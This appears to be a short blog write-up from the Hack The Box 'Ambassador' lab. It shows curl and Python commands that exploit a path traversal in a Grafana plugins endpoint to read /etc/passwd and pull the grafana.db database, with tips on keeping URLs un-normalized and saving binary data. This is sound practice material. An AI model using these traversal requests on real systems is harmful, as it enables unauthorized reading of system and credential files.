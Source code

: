 +++
author = "Frenchie"
title = "Ambassador HTB"
date = "2023-01-29"
description = "Ambassador HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

While doing manual LFI at grafana endpoint, I tried to exfill sqlite3 db from /var/lib/grafana/grafana.db

<!--more-->

The initial code:
```python
if r.status_code == 200:
    print(r.text)
```

Using r.text from requests library caused sqlite3 db became corrupted.
Need to use proper method.
```python
if r.status_code == 200:
    with open("grafana-python.db", "wb") as file:
        file.write(r.content)
```

Use requests.content instead of requests.text for bytes-type data.
[Docs](https://requests.readthedocs.io/en/latest/user/quickstart/#binary-response-content)

---

For sending GET requests without url normalization, use curl with --path-as-is

```bash
curl http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd --path-as-is -x 127.0.0.1:8080
```

with requests module in python3, using requests.get will not work. Need to use prepared requests.
[Docs](https://requests.readthedocs.io/en/latest/user/advanced/#prepared-requests)

```python
import requests

url = 'http://10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd'
proxies = {"http": "127.0.0.1:8080"}
s = requests.Session()
req = requests.Request(method='GET', url=url)
prep = req.prepare()
prep.url = url
r = s.send(prep, verify=False, timeout=3)
# r = s.send(prep, verify=False, timeout=3, proxies=proxies)  # WILL NOT WORK WITH PROXIES
print(r.text)
```

> CANNOT using proxies in prepared requests. The url will get normalized!

---

This is working in curl:
```bash
curl 10.10.11.183:3000/public/plugins/stat/../../../../../../../../etc/passwd --path-as-is
```

in Python3, without protocol scheme (http/https) requests will error: No connection adapters were found.

> Without the http:// part, requests has no idea how to connect to the remote server.
>
>Note that the protocol scheme must be all lowercase; if your URL starts with HTTP:// for example, it won’t find the http:// connection adapter either.
> — <cite>[source](https://stackoverflow.com/questions/15115328/python-requests-no-connection-adapters)</cite>